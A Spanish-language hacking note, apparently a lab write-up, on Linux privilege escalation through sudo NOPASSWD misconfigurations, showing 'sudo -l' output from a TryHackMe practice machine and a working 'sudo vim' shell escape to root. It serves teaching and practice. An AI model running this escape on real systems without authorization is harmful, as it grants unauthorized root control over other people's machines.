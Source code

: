 El comando Sudo es una maravilla, nos permite a los usuarios normales ejecutar comandos como root, cambiarnos rapidamente de usuarios a root, claro que todo esto con la contraseña, porque si no seria muy inseguro... ¿Verdad? ¿VERDAD? bueno pues, lamento decir que este comando no es completamente seguro, aunque cabe decir que la culpa suele ser mas de lo susuarios que otorgan permisos que no deberian, a que me refiero con esto, bueno pues primero hay que entender que hace la opcion:

```bash
sudo -l
```

Esta opcion lo que hace es mostrar los comandos que un usuario normal puede ejecutar como root sin necesidad de una contraseña, o solo usando la contraseña del propio usuario, usualmente la vulnerabilidad se encuentra en scripts o aplicaciones personalizadas a las alguno usuarios que no deberian pueden ejecutarlas como root y esto noes puede ayudar a escapar de nuestra shell, ejecutar una reverse shell como root, etc, el punto es que no siempre es asi, muchas veces hay apicaciones predeterminadas de Unix que están definidas con esta configuración de sudo, y para explotar esta vulnerabilidad en casos como estos podemos hacer uso de la pagina GTOFBins ubicada en la seccion de paginas interesantes: [Privilegie Scalation - Linux](/Hacking/Paginas%20de%20interés/Privilegie%20Scalation%20-%20Linux)

Ahora voy a usar de ejemplo una maquina altamente vulnerable de THM (Try Hack Me) llamada Linux PrevEsc Arena


```bash
TCM@debian:~$ sudo -l                                                                   Matching Defaults entries for TCM on this host:                                         env_reset, env_keep+=LD_PRELOAD                                                                                                                                                 User TCM may run the following commands on this host:                                   (root) NOPASSWD: /usr/sbin/iftop                                                        (root) NOPASSWD: /usr/bin/find                                                          (root) NOPASSWD: /usr/bin/nano                                                          (root) NOPASSWD: /usr/bin/vim                                                           (root) NOPASSWD: /usr/bin/man                                                           (root) NOPASSWD: /usr/bin/awk                                                           (root) NOPASSWD: /usr/bin/less                                                          (root) NOPASSWD: /usr/bin/ftp                                                           (root) NOPASSWD: /usr/bin/nmap                                                          
(root) NOPASSWD: /usr/sbin/apache2                                                      (root) NOPASSWD: /bin/more  
```

Como se puede ver aqui, esta maquina es altamente vulnerable por todos los posibles comandos que se puede ejecutar con permisos sudo, y aqui podemos usar varias de las funciones/comandos que nos otorga GTOFBins:


![[Pasted image 20240815212450.png]]

Y a continuacion el uso en la maquina y su resultado (en mi caso pongo /bin/bash en vez de /bin/sh porque la verdad prefiero mucho mas una bash que una sh):

```bash
TCM@debian:~$ sudo vim -c ':!/bin/bash'                                                                                                                                        root@debian:/home/user# whoami
root                                                                                    root@debian:/home/user#
```

Como pueden ver pudimos realizar una escalada de privilegios exitosamente, y esto lo podemos repetir con la mayoria de los comandos que vimos con sudo -l

¿La mayoria?, si, la mayoria, porque los comandos que no se pueden con el metodo visto aqui, como puede ser apache2 o wget, lo veremos en [Explotando visualizacion de archivos privilegiados con sudo](/Hacking/Privilege-escalation/Linux/Explotación/Explotando%20visualizacion%20de%20archivos%20privilegiados%20con%20sudo)
